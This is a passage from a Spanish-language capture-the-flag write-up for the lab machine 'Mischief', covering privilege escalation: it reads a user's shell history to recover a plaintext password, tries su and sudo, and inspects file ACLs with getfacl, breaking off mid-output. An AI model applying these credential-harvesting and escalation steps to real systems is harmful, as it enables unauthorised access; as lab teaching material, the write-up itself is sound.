 ```
 
```
---
## Escalada de privilegios

Listamos el "history" para ver que comandos ejecutó el usuario Loki.

```bash

loki@Mischief:~$ history
    1  python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery <--
    2  exit
    3  free -mt
    4  ifconfig
    5  cd /etc/
    6  sudo su
    7  su
    8  exit
    9  su root
   10  ls -la
   11  sudo -l
   12  ifconfig
   13  id
   14  cat .bash_history 
   15  nano .bash_history 
   16  exit
   17  ls
   18  cat user.txt 
   19  sudo su
   20  sudo -l
   21  hostiry
   22  history
loki@Mischief:~$ 

```
Intentemos usar esas credenciales para convertirnos en Root.

```bash
loki@Mischief:~$ su
bash: /bin/su: Permission denied
loki@Mischief:~$ sudo su
bash: /usr/bin/sudo: Permission denied
loki@Mischief:~$ 

```
Vemos que no nos deja usar "SU" o "SUDO SU".

Para listar mejor los privilegios podemos usar getfacl.

```bash

loki@Mischief:~$ getfacl /bin/su 
getfacl: Removing leading '/' from absolute path names
# file: bin/su
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x

loki@Mischief:~$ getfacl /bin/su 
getfacl: Removing leading '/' from absolute path names
```